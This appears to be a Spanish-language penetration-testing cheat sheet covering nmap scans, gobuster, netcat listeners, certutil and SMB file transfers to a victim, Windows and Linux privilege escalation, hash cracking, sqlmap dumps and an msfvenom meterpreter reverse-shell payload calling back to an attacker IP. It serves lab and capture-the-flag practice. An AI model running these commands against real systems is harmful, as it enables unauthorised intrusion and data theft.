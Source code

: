 ## Identificar puertos abeirtos
```sh
nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn -oG allPorts
```
-oG se guarda en formato grepeable para poder extraer los puertos con extractports 
-sS escaneo sigiloso 
-p- escanea todos los puertos --open 
-min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo 
-n No realiza resolución DNS // -vvv Muestra resultados muy detallados 
-Pn Desactiva la detección de hosts

## Identificar versiones de los puertos abiertos
```sh
nmap -sV -sC -p<puertos separados por ,> -n -v -Pn -oA scan
```
-sV deteccion de versiones 
-sC ejecuta scripts por defecto 
-n No realiza resolución DNS 
-v muestra resultados detallados 
-Pn Desactiva la detección de hosts

## Scripts con nmap
```sh
nmap --script "vuln and safe" -p
```
## Gobuster
```sh
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
```
dir para directorio
-u para la url
-w para pasarle el diccionario
-x para agregar .txt a todos los datos del diccionario
-t para los hilos
| grep -v "301" para no mostrar los status

## Colocarse en escucha
```sh
nc -lvnp <puerto>
```

## Abrir un servidor para transferir archivos
```sh
python3 -m http.server <puerto>
```

## Escalacion de privilegios en Windows (Windows-Exploit-Suggester)
Revissar version   systeminfo
En el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
```sh
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d <archivo descargado> -i systeminfo.txt
```

privilegios whoami /priv
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) (https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)
o printspoofer
winpeas

## Transferir archivos de linux a windows
En linux abrir un servidor
Windows:
```sh
certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
```

linux:
```sh
impacket-smbserver recurso $(pwd) -smb2support
```
windows:
```sh
copy \\<ip atacante>\recurso\archivo.extension archivo.extension
```

## Transferir archivos de linux a linux
Abrir servidor
recibir:
```sh
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension
```

## Escalar privilegios en linux
Permisos sudo: 
```sh
sudo -l
```
Permisos suid: 
```sh
find / -type f -perm -4000 -ls 2>/dev/null
```
listar tareas predefinidas : 
```sh
cat /etc/crontab
```
Linux versiones anteriores 
```sh
searchsploit dirty cow
```

## Pasar de hexadecimal a normal
Linux versiones anteriores 
```sh
echo "486f6c61206d756e646f" | xxd -r -p
```

## Pasar de base 64 a normal
```sh
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
```

## Decifrar hash
Saber el tipo de hash
```sh
hashid hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256
```

## Reverseshell msfvenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx
```

## mejorar bash
```sh
script /dev/null -c bash
```
crtl + z
```sh
stty raw -echo; fg
```
```sh
reset xterm
```
```sh
export TERM=xterm
```
En la terminal del atacante para saber el tamaño de nano
```sh
stty size
```
En la terminal de la victima para ajustar el tamaño de nano
```sh
stty rows <rows> columns <columns>
```

##  Listar puertos ocultos
```sh
netstat -na -p tcp
```

## Sql map
Con burpsuite ver la peticion y descargar el archivo como request.txt
```sh
sqlmap -r request.txt --dbms=mysql --dump
```

## Listar smb
Ver recursos compartidos
```sh
smbclient -L ip
```
```sh
smbclient  //ip/recurso
```
Descargar archivo
```sh
get archivo
```
Subir archivo 
```sh
put archiv
```






